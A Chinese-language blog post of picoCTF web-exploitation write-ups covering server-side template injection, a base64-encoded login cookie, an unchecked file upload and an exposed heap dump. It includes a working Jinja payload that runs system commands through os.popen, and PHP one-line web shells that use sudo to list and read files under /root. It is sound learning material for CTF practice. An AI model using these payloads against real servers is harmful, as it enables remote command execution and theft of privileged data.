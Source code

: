 ```yaml
---
title: 'PicoCTF Web Exploitation Easy分級解題紀錄'
published: 2025-04-19
lastUpdated: '2025-04-20 04:00'
description: '紀錄一點算簡單的CTF解題'
image: ''
tags: [PicoCTF, Web Exploitation, CTF, 網路安全]
category: '資安'
draft: false
lang: ''
---
```

# Introduction
這是拿來放一些解題ㄉ紀錄，慢慢邊做邊寫，因為我好久沒碰了
有些有有些沒有是因為有些我已經解過ㄌ，我也懶得再解一次


## SSTI1
### Description
SSTI (Server-Side Template Injection) 是一種網頁應用程式漏洞，當使用者輸入的資料被直接嵌入到伺服器端模板中時，就會發生這種漏洞。這可能導致攻擊者能夠執行任意的程式碼或命令，從而獲取敏感資訊或控制伺服器。  

### 解法
首先你會看到一個酷酷的網站，有一個輸入框，你會發現不論輸入啥他都會顯示在頁面上，我們可以試試看輸入```{{7*7}}```  會得到什麼
<img src="https://i.imgur.com/mbFg62p.png" width="300" height="200" />
沒錯!一個大大的49，這就是一個SSTI的漏洞，這個漏洞可以讓我們執行python的程式碼，接下來我們可以試試看```{{7*7*7*7}}``` 會得到什麼
![image](https://i.imgur.com/WgLYlaS.png)
這時我們已經確定這是一個SSTI的漏洞了，接下來我們可以來點更有趣的東西，他可以執行python的程式碼，因此應該可以執行一些系統命令
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![1745082641462](images/1745082641462.png)
這段程式碼大概的意思是
- ```request.application```: 訪問當前Web請求的應用

- ```__globals__```: 訪問全局命名空間，允許獲取內建函式

- ```__import__('os')```: 動態導入 os 模塊，這樣就可以使用操作系統相關功能

- ```popen('id')```: 執行系統命令 id，該命令顯示當前用戶的身份

- ```read()```: 讀取命令的輸出結果  
那我們可以把命令改成，ls來看看有沒有什麼驚喜，聽話讓我看看!
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![1745083019268](images/1745083019268.png)
最後只要試試看
```
python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
我們就會得到flag了!  
picoCTF{||幹嘛，你要自己去試試看阿!還想偷看阿hhhhhhhhhhhhhhh||}  




## Cookie Monster Secret Recipe

### Description
Cookie ~~小餅乾~~ 是網站儲存在你瀏覽器中的小型資料，用來記住你的登入狀態、偏好設定或追蹤行為。下次你再訪問網站時，瀏覽器會自動帶上這些資訊，讓網站知道你是誰。
如果 Cookie 使用不當的話，可能會出現資安漏洞或使用者隱私外洩的風險。舉例來說：
  - 登入資訊可能被竊取：如果沒有設定 HttpOnly，攻擊者就有機會透過跨站腳本攻擊（XSS）偷走使用者的登入 Cookie，冒用身分。
  - 使用者操作被偽造：若網站沒有防範 CSRF 攻擊，攻擊者可以利用使用者的 Cookie 發出未經授權的操作，例如轉帳或修改帳號資料。
  - 敏感資料曝光：若在 Cookie 中儲存像是帳號、密碼、信用卡號等敏感資料，可能會被竊取或洩漏，造成重大安全問題。
  - 跨站追蹤問題：若使用第三方 Cookie，可能被廣告商用來追蹤使用者在不同網站的行為，侵犯個人隱私。
  - 資料被中途攔截：如果 Cookie 沒有設定 Secure，在未加密的 HTTP 傳輸過程中就可能被攔截。
因此，開發者在設計網站時必須謹慎使用 Cookie，避免成為資安漏洞的來源。

### 解法
首先我們看到網站，並且檢查F12->儲存空間->Cookies看看裡面有沒有東西，啥都沒有  
![cXhhshj.png](https://i.imgur.com/cXhhshj.png)
我們可以嘗試登入一下，帳號密碼隨意，哎呀看起來有問題
![image](https://i.imgur.com/xc9JLcK.png)
我們可以再看一次Cookies，看看有沒有東西
看起來有東西出現!
![image](https://i.imgur.com/41r84nI.png)
看起來長得有點像是base64編碼的東西，我們可以試試看丟到解碼的網站看看
得到答案啦!
![image](https://i.imgur.com/CuDY1CK.png)
- FLAG
  - ||picoCTF{自己去試試看啦hahahahahahahahha}||


## n0s4n1ty 1

### Description
這個網站有一個上傳檔案的功能，並且會顯示上傳的檔案名稱和路徑。  
有兩個需要注意的地方是未檢查的檔案上傳以及權限設定不當的問題。  
這可能會導致攻擊者能夠上傳惡意檔案，並且執行任意的程式碼或命令，從而獲取敏感資訊或控制伺服器。  

### 解法
首先我們看到網站可以上傳檔案，先上傳看看一個php檔案看看譨不能傳PNG以外的東西
提示中說要重點針對```sudo -l```，那我們就嘗試在php中執行看看
```php
<?php echo exec('sudo -l');?>
```
上傳之後顯示，讓我們去看看```uploads/owo.php```有甚麼東西
```
The file owo.php has been uploaded Path: uploads/owo.php 
```
![image](https://i.imgur.com/gFTXjB4.png)
既然可以執行指令那我們就可以嘗試看看root資料夾下面有沒有什麼驚喜
```php
<?php echo exec('sudo ls -al /root ');?>
```
再次訪問網站並且去到```uploads/owo.php```會顯示
```bash
-rw-r--r-- 1 root root 36 Mar 6 03:56 flag.txt
```
那我們可以喵喵一下把檔案內容顯示出來!
```php
<?php echo exec('sudo cat /root/flag.txt');?>
```
哎呀又找到ㄌ
- FLAG
  - picoCTF{||aaaaaaaaaaa自己去試試看啦||}

## head-dump

### Description
Heap dump（堆轉儲）是 Java 虛擬機（JVM）在特定時間點的內存快照，常用於診斷內存泄漏和性能問題。然而，若使用不當，可能帶來安全風險  
這個題目的面相會是需要注意獲得授權的人員才可以訪問head dump文件，這個文件包含了系統的內存轉儲，可能會洩漏敏感資訊或機密資料。
這可能會導致攻擊者能夠獲取敏感資訊或控制伺服器。

### 解法

首先我們進到網站會先看到這個頁面，題目描述中特別提到API Documentation的文章
![image](https://i.imgur.com/ODv3jxu.png)
我們會發現 #API Documentation 可以按下去，並且案下去會進入API的頁面
![image](https://i.imgur.com/UzVR81I.png)
最下方有一個```/headdump```點開來看看，並且我們可以嘗試戳戳看API嘗試之後會發現他吐了一個200回應給我們並且可以下載dump出來的檔案
![image](https://i.imgur.com/xmal43e.png)
接下來只要下載下來用記事本打開，但是有好多看不懂的東西怎辦，沒關係這時候只要使用尋找搜尋```picoCTF```就可以找到flag了!

- FLAG
  - picoCTF{||自己去試試看啦haskdlfjdisgsdmgzld||}

